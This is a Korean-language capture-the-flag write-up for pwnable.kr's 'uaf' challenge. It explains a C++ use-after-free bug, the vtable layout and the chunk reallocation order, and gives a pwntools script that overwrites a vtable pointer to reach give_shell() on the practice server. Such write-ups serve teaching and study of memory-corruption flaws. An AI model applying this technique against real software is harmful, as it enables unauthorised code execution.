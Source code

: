 # [pwnable.kr] uaf

> Mommy, what is Use After Free bug?
>
> ssh uaf@pwnable.kr -p2222 (pw:guest)
>
> [Attachment](./attachment)

## Bug

`Man`과 `Woman`이 할당된 상태의 메모리 구조는 다음과 같다.

![image](https://github.com/user-attachments/assets/60d405de-b511-4975-a0ad-3c5f11bbad3c)

Vtable은 `introduce()`와 `give_shell()`의 주소를 저장하고 있다.

![image](https://github.com/user-attachments/assets/71cda493-724b-44c9-a51b-1e96162cf1ad)

`Man::introduce()`를 호출하는 과정을 보면,

![image](https://github.com/user-attachments/assets/58a00b61-92a7-44d8-b3e3-f2707dd03811)

Chunk로부터 vtable의 주소(`0x401570`)를 가져오고, 그 주소에 8을 더한 위치에 저장된 함수(`introduce()`)를 호출한다. 이 과정은 `Man`과 `Woman`이 free된 상태에서도 동일하게 진행된다.

```c++
/* uaf.cpp */

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}
```

`3. free`로 `m`과 `w`를 삭제하면 size가 `0x20`인 chunk 두 개가 free된다. 이 상태에서 `2. after`로 size가 `0x20`인 chunk를 두 번 할당받으면 삭제된 순서의 반대로 `w`와 `m`이 할당된다. Chunk에는 임의의 파일의 내용을 넣을 수 있기 때문에, `Man`의 vtable 주소가 원래보다 8만큼 작아지게 한 후 `1. use`를 실행하면 `introduce()`보다 8바이트만큼 앞쪽에 있는 `give_shell()`이 호출되어 shell을 획득할 수 있다.

## Exploit

![image](https://github.com/user-attachments/assets/c285edb5-e545-4aa9-8931-da8a622d289b)

```python
from pwn import *

p = ssh("uaf", "pwnable.kr", 2222, "guest").process(
    ["/home/uaf/uaf", str(3), "/tmp/h0meb0dy/payload"]
)

sl = p.sendline


def use():
    sl(b"1")


def after():
    sl(b"2")


def free():
    sl(b"3")


free()  # free Man and Woman
after()  # allocate Woman
after()  # allocate Man (sub 8 from vtable)
use()  # call give_shell()

p.interactive()
```

![image](https://github.com/user-attachments/assets/9b83f001-124a-40ce-aa0a-9e7e10863501)
